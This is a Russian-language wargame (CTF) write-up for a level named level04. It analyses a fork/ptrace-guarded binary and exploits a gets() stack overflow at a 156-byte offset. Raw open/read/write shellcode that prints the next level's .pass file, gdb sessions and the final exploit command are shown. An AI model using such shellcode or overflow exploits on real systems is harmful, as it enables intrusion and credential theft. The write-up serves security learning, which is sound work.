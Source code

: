 Проанализировав код бинарника становится понятно, что программа объявляет буфер размером 32 байта, а затем вызывает fork для создания дочернего процесса.  

В дочернем процессе используется функция ptrace, чтобы отслеживать родительский процесс. Сначала отображается сообщение ```"Give me some shellcode, k"```, затем вызывается gets для заполнения буфера.  

В то же время родительский процесс ожидает обновления статуса от дочернего процесса. Если родительский процесс получает сигнал SIGCHLD, означающий, что дочерний процесс завершился, он также возвращается. В противном случае он использует ptrace для мониторинга системных вызовов, выполняемых дочерним процессом. Если он найдет exec, то убивает процесс и возвращается.

Отсюда мы понимаем, что необходимо использовать шелл-код, не использующий вызов функции exec.

Для начала необходимо найти правильное смещение, чтобы перезаписать адрес возврата.

```
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 2432]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2432]
0x41326641 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0xf7fd08c4       -134412092
edx            0xffffd670       -10640
ebx            0x41386541       1094214977
esp            0xffffd710       0xffffd710
ebp            0x31664130       0x31664130
esi            0x0      0
edi            0x66413965       1715550565
eip            0x41326641       0x41326641
eflags         0x10282  [ SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

Offset - 156 (https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)

Как выяснилось раньше мы не можем использовать системный вызов exec, поэтому мы будем использовать шелл-код, который вызывает open/read/write, чтобы распечатать содержимое файла .pass. Добавим перед ним nop символы и экспортируем в переменные окружения:

```
export SHELLCODE=`python -c 'print "\x90"*10 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
```
Наконец, мы находим адрес нашей переменной SHELLCODE в стеке, запуская исполняемый файл в дебаггере. Затем запускаем его снова, отправляя строку из 156 символов, за которой следует этот адрес (плюс 16-байтовое смещение), чтобы попасть в наш nop след.

```
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) x/10s *((char**)environ)
0xffffd879:      "SHELLCODE=[...]"

level04@OverRide:~$ python -c 'print "A" * 156 + "\x8c\xd8\xff\xff"' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
```